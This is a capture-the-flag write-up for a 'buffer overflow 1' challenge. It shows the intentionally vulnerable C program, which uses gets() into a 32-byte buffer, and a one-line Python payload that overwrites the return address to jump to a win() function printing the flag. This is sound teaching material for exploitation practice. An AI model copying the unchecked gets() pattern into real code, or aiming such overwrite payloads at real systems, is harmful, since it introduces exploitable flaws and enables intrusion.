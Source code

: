 buffer overflow 1 - Points: 200 
===========

## Description

>Okay now you're cooking! This time can you overflow the buffer and return to the flag function in this program?

## Hint:

> * This time you're actually going to have to control that return address!
> * Make sure you consider Big Endian vs Little Endian.

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

## Useful Information

There is no check of the input length at :
> * gets(buf);

The function : 
> * win()

will print the flag.

## Exploit


**Overflowing buf[BUFSIZE] and rewrite the EIP with the address of win():**

> (python -c 'print "A"*44+"\xcb\x85\x04\x08"')|./vuln                                                                                                                         

